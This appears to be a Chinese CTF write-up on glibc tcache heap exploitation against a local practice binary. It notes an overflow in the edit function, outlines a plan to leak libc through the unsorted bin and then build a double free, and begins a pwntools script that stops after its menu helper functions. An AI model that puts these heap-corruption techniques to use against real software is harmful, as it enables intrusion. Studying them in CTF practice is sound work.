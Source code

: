 # tcache

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605101468235-f9b2e2cc-8782-45e6-bf75-220a66f00a26.png)

数量有限：7个

## 例题tcache

### 逆向分析

add函数：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605101547081-aaecb4ae-614b-4d54-a134-4e18c3db957e.png)

edit函数存在溢出：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605101606694-7017885b-9486-4ba0-964b-c6af65085c6c.png)可以构造堆块重合

### 调试

首先我们需要一个unsorted bin，需要足够大，所以申请够多的chunk

之后free掉就得到了一个unsorted chunk，就可以leak libc了，还可以继续申请构造double free

### 脚本

```python
from pwn import *


local = 1
p = process('./tcache')
context.log_level = 'debug'

def launch_gdb():
    if local != 1:
        return
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])

def add(s):
    p.recvuntil('----------menu----------')
    p.sendline('1')
    p.recvuntil('content:')
    p.send(s)

def edit(i,s):
    p.recvuntil('----------menu----------')
    p.sendline('2')
    p.recvuntil('string:')
    p.sendline(str(i))
    p.recvuntil('content:')
    p.send(s)

def dele(i):
    p.recvuntil('----------menu----------')
    p.sendline('3')
    p.recvuntil('string:')
    p.sendline(str(i))

def show(i):
    p.recvuntil('----------menu----------')
    p.sendline('4')
```